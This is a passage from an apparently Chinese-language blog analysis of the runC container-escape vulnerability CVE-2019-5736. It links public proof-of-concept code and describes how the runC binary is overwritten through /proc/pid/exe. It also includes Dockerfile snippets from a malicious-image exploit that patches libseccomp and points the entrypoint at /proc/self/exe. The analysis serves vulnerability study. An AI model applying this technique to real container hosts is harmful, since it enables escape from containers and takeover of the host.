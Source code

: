 ```
As a side note, privileged Docker containers (before the new patch) could use the /proc/pid/exe of the runc init process to overwrite the runC binary. To be exact, the specific privileges required are SYS_CAP_PTRACE and disabling AppArmor.
```

4.复现环境快速搭建
- https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw/

### 利用方法一 Docker EXEC POC

- https://github.com/Frichetten/CVE-2019-5736-PoC/

循环等待 runC init的 PID -> open("/proc/pid/exe"，O_RDONLY) -> execve()释放 runC的IO并覆盖runC二进制文件 -> execve()执行被覆盖 runC

![docker7](https://raw.githubusercontent.com/tom0li/tom0li.github.io/main/assets/images/docker7.jpg)

### 利用方法二 恶意镜像POC
- https://github.com/twistlock/RunC-CVE-2019-5736

思路: 研究人员通过欺骗runC init execve -> runc 执行/proc/self/exe -> /proc/[runc-pid]/exe覆盖runC 二进制文件

POC文件分析
> Dockerfile文件

1.获取libseccomp文件并将run_at_link文件加入，runC启动运行libseccomp。

```
ADD run_at_link.c /root/run_at_link.c
RUN set -e -x ;\
    cd /root/libseccomp-* ;\
    cat /root/run_at_link.c >> src/api.c ;\
    DEB_BUILD_OPTIONS=nocheck dpkg-buildpackage -b -uc -us ;\
    dpkg -i /root/*.deb
```

2.overwrite_runc添加docker中并编译
3.使入口点指向runc 

```
RUN set -e -x ;\
    ln -s /proc/self/exe /entrypoint
ENTRYPOINT [ "/entrypoint" ]
```

> run_at_link文件
